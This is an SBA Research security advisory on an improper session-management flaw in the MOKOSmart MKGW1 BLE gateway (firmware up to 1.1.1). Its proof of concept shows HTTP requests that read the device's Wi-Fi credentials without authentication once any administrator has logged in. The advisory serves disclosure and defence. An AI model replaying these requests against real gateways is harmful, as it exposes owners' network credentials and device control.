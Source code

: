 # MOKOSmart MKGW1 Gateway Improper Session Management #

## Vulnerability Overview ##

MOKOSmart MKGW1 Gateway devices with firmware version 1.1.1 or below do
not provide an adequate session management for the administrative web
interface. This allows adjacent attackers with access to the management
network to read and modify the configuration of the device.

* **Identifier**            : SBA-ADV-20220120-01
* **Type of Vulnerability** : Improper Authentication
* **Software/Product Name** : [MOKOSmart MKGW1 BLE Gateway](https://www.mokosmart.com/mokosmart-mkgw1-gateway-iot-cloud-platform/)
* **Vendor**                : [MOKO TECHNOLOGY LTD](https://www.mokosmart.com/)
* **Affected Versions**     : <= 1.1.1
* **Fixed in Version**      : Not yet
* **CVE ID**                : Pending
* **CVSS Vector**           : CVSS:3.1/AV:A/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
* **CVSS Base Score**       : 8.0 (High)

## Vendor Description ##

> * MKGW1 Bluetooth gateway is mainly used for the MOKO Bluetooth products.
> * It is convenient for users to get the data of the MOKO series Beacon,
>   and advertising raw data of any Bluetooth device.
> * It can upload the data to the server via MQTT (V3.1.1) or HTTP(S)
>   protocol.
> * MKGW1 was developed with MediaTek® MT7688AN relying on OpenWrt system
>   and Nordic® nRF52 platform.
> * MKGW1 can connect the standard MQTT Broker, Aws IOT, Azure IOT HUB,
>   Aliyun IOT.

Source: <http://doc.mokotechnology.com/index.php?s=/page/108>

## Impact ##

By exploiting the documented vulnerability, an attacker can gain
administrative access to the device. For example, this can be misused by
altering the configuration of the device or by reading out the configured
network credentials and therefore getting a foothold in the victim's network.

## Vulnerability Description ##

The gateway offers a web-based configuration interface that can be used to
edit the configuration of the gateway. Username and password are requested
to authenticate the administrator. After sending the correct credentials the
device sets a global server-side state to "logged in" for 3600 seconds,
rather than issuing a session ID. Now any device on the same network can
access the configuration interface as administrator without any additional
authentication and read and modify the configuration.

## Proof of Concept ##

Login with the admin credentials on the web interface from a legitimate
client:

HTTP request:

```http
POST /goform/login HTTP/1.1
Host: 192.168.22.1
Content-Type: application/json
Content-Length: 39
Origin: http://192.168.22.1
Connection: close
Referer: http://192.168.22.1/sign_in

{"username":"Admin","password":"[redacted]"}
```

HTTP response:

```http
HTTP/1.1 200 OK
Content-type: application/json
Pragma: no-cache
Cache-Control: no-cache

{ "state": { "code": 2000, "msg": "ok" }, "data": { "activetime": "3600" } }
```

The response shown above does not contain any session identifier.
On another client that can reach the web interface, an attacker can read out
the configuration without any authentication:

HTTP request:

```http
GET /goform/get_wan HTTP/1.1
Host: 192.168.22.1
Connection: close
```

HTTP response:

```http
HTTP/1.1 200 OK
Content-type: application/json

{ "state": { "code": 2000, "msg": "ok" }, "data": { "wanmode": "WIFI", "wanssid": "[redacted]", "wanencrypt": "[redacted]", "wanpassword": "[redacted]", "proto": "dhcp", "ipaddr": "", "netmask": "", "gateway": "", "firdns": "", "secdns": "" } }
```

The above proof-of-concept shows that the MOKO gateway cannot distinguish
between multiple sessions. Therefore, if a legitimate client is logged in,
an attacker can read the configuration. Furthermore, an attacker can also
modify the configuration by sending the appropriate `JSON` data to the
respective `POST` endpoint. Changes to the network can trigger a reboot
of the device.

## Recommended Countermeasures ##

We are not aware of a vendor fix yet. Please contact the vendor.

We recommend to implement a proper session management for the
administrative web interface of the device.

## Timeline ##

* `2022-01-20`: identification of vulnerability in version 1.1.1
* `2022-01-27`: initial vendor contact
* `2022-03-02`: disclosed vulnerability to vendor contact but received no reply
* `2023-12-11`: request CVE from MITRE
* `2023-12-12`: public disclosure

## References ##

* [Moko Gateway Documentation](https://www.mokosmart.com/wp-content/uploads/2019/10/GS-gateway.pdf)

## Credits ##

* Jakob Hagl ([SBA Research](https://www.sba-research.org/))
* David Lisa Gnedt ([SBA Research](https://www.sba-research.org/))
